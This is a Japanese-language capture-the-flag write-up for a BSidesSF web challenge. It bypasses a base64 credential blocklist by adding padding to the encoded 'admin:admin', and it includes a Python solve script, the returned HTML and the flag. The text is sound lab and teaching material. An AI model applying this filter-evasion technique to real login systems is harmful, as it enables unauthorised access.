 # extinction

A Dragon Doomsday weapon has been activated! We've stolen an account (admin:admin), but it's not working!! Can you evade their detection??

index.phpが与えられる

ユーザーが認証情報をBase64エンコードして送信し、その情報が正しいかどうかを確認する仕組みになっています。ただし、特定のBase64エンコードされた文字列（YWRtaW46YWRtaW4）を含んだ場合には、認証が失敗したことを通知されます。この特定の文字列はadmin:adminをBase64エンコードしたもの

## solution

1. フォーム送信のパラメータ: Webページ上でどのパラメータが使われているかを確認します。おそらくencoded_credsというパラメータが使われており、これにBase64エンコードされたusername:passwordペアが渡されます。

2. Base64エンコード: username:passwordペアをBase64でエンコードし、その値を送信します。
3. 結果を確認: サーバーからのレスポンスを確認し、フラグが得られるかどうかを確認します。

solve.py
```
import base64
import requests

def get_url():
    return "https://extinction-63b64602.challenges.bsidessf.net"

encoded_creds = base64.b64encode(b'admin:admin').decode('utf-8')
url = f"{get_url()}/index.php?encoded_creds={encoded_creds}"
response = requests.post(url)

if "CTF" in response.text or "AHA" not in response.text:
    print("Something went wrong: the 'bad' request wasn't correctly handled!")
    exit(1)

# 正しい認証情報を使って再度試す
encoded_creds = "YWRtaW46YWRtaW5="  # これは 'admin:admin' の Base64エンコード結果
url = f"{get_url()}/index.php?encoded_creds={encoded_creds}"
response = requests.post(url)

if response.status_code == 200:
    print("Flag Found:", response.text)
else:
    print(f"Something went wrong: {response.text}")
    exit(1)

print
```


出力にflagが含まれている
```
$ python3 solve.py 
Flag Found: <!DOCTYPE html>
<html lang="en">
<body>
    <div class="container">
        <div class="row justify-content-center">
            <div class="col-md-6 col-lg-4">
                <div class="dragon-auth-box p-4">
                    <h2 class="text-center mb-4">🐉 Dragon Preservation System 🛡️</h2>

                                            <div class="alert alert-success">Congratulations! Your flag is <tt>CTF{i-saved-the-dragons-and-all-i-got-was-this-stupid-flag}
</tt></div>
                    

        <p>An extinction weapon has been activated against the dragons, and only YOU can stop it!</p>

        <p>Our intelligence reports that the Ally Name is <strong><tt>admin</tt></strong> and the key is <strong><tt>admin</tt></strong>, but that's not working! Can you find a way to use that account??</p>
\
        </script>
                </div>
            </div>
        </div>
    </div>
</body>
</body>
</html>
```

## flag

`CTF{i-saved-the-dragons-and-all-i-got-was-this-stupid-flag}`